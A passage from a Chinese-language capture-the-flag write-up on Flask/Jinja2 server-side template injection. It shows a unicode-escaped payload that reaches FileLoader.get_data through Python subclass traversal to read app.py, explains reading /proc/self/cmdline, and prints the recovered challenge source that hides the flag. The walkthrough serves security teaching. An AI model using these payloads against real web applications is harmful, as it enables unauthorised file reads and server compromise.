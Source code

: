 命令执行成功：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e7dd570dfbf3c748.png)

通过读取/proc目录中的文件查看当前进程：

```
`{``{`()["\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f"]["\u005f\u005f\u0062\u0061\u0073\u0065\u0073\u005f\u005f"][0]["\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f"]()[91]["\u0067\u0065\u0074\u005f\u0064\u0061\u0074\u0061"](0, "app.py")`}``}`

"""
`{``{`()["__class__"]["__bases__"][0]["__subclasses__"]()[91]["get_data"](0, "app.py")`}``}`
# 用&lt;class '_frozen_importlib_external.FileLoader'&gt;这个去读取文件
"""
```

**注意：**这里就不能使用之前那个命令执行通过cat命令读取cmdline了，因为如果是cat读取/proc/self/cmdline的话，得到的是cat进程的信息，所以我们要通过题目的当前进程使用python读取文件的方式读取/proc/self/cmdline。（不知道你们听懂了没……）

[![](https://p3.ssl.qhimg.com/t014fad9c39826b95ab.png)](https://p3.ssl.qhimg.com/t014fad9c39826b95ab.png)

如上图所示，得到当前进程为app.py。

读取app.py文件：

[![](https://p2.ssl.qhimg.com/t01723062bd0e569e7c.png)](https://p2.ssl.qhimg.com/t01723062bd0e569e7c.png)

得到了如下源码：

```
import random
from flask import Flask, render_template_string, render_template, request
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = 'folow @osminogka.ann on instagram =)'

#Tiaonmmn don't remember to remove this part on deploy so nobody will solve that hehe
'''
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))
app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
'''

def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

file = open("/app/flag", "r")
flag = file.read()

app.config['flag'] = encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
flag = ""

os.remove("/app/flag")

nicknames = ['˜”*°★☆★_%s_★☆★°°*', '%s ~♡ⓛⓞⓥⓔ♡~', '%s Вêчңø в øĤлâйĤé', '♪ ♪ ♪ %s ♪ ♪ ♪ ', '[♥♥♥%s♥♥♥]', '%s, kOтO®Aя )(оТеЛ@ ©4@$tьЯ', '♔%s♔', '[♂+♂=♥]%s[♂+♂=♥]']

@app.route('/', methods=['GET', 'POST'])
def index():
```